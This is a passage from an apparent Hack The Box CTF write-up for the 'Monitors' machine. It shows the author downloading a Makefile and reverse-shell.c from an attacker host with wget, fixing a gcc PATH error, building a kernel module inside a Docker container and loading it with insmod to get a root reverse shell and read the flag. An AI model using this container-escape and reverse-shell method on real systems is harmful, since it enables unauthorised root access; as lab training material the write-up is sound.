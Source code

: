 gcc cc1 was not found, and unfortunatley we are unable to fix this using 'apt-get install --reinstall build-essential'. We can't
compile on any other host, as other headers would be used - /usr/src/linux-headers-5.10.0-kali4-amd64 on Kali for example, while
the docker wants /usr/src/linux-headers-4.15.0-142-generic.

Maybe it's a formatting error, lets try to create the files on our local Kali host, and then transfer them to the remote container.

  [root:/git/htb/monitors/rev]# python3 -m http.server 80
  root@8b08538ad9e7:/rev# wget http://10.10.14.12/Makefile
  root@8b08538ad9e7:/rev# wget http://10.10.14.12/reverse-shell.c

  root@8b08538ad9e7:/rev# make
    make -C /lib/modules/4.15.0-142-generic/build M=/rev modules
    make[1]: Entering directory '/usr/src/linux-headers-4.15.0-142-generic'
      CC [M]  /rev/reverse-shell.o
    gcc: error trying to exec 'cc1': execvp: No such file or directory
    make[2]: *** [scripts/Makefile.build:339: /rev/reverse-shell.o] Error 1
    make[1]: *** [Makefile:1584: _module_/rev] Error 2
    make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-142-generic'
    make: *** [Makefile:3: all] Error 2

Still the same error.. reading about this issue it seems to be an error related to $PATH.

  root@8b08538ad9e7:/rev# $PATH
    bash: /usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:

GCC is also located in /usr/lib, which is not a part of $PATH - lets add it and try to make again.
  root@8b08538ad9e7:/rev# export PATH=$PATH:/usr/lib
  root@8b08538ad9e7:/rev# make
    make -C /lib/modules/4.15.0-142-generic/build M=/rev modules
    make[1]: Entering directory '/usr/src/linux-headers-4.15.0-142-generic'
      CC [M]  /rev/reverse-shell.o
      Building modules, stage 2.
      MODPOST 1 modules
      CC      /rev/reverse-shell.mod.o
      LD [M]  /rev/reverse-shell.ko
    make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-142-generic'


4. We successfully compiled our reverse-shell! Setup a listener on the victim machine and trigger the reverse to grab root.txt.

  root@8b08538ad9e7:/rev# insmod reverse-shell.ko

  marcus@monitors:/tmp$ nc -lvnp 4488
    Listening on [0.0.0.0] (family 0, port 4488)
    Connection from 10.10.10.238 60668 received!
    bash: cannot set terminal process group (-1): Inappropriate ioctl for device
    bash: no job control in this shell
    root@monitors:/# id
      uid=0(root) gid=0(root) groups=0(root)
    root@monitors:/# cat /root/root.txt
      07f715aa4df670c67174826151f2c30c
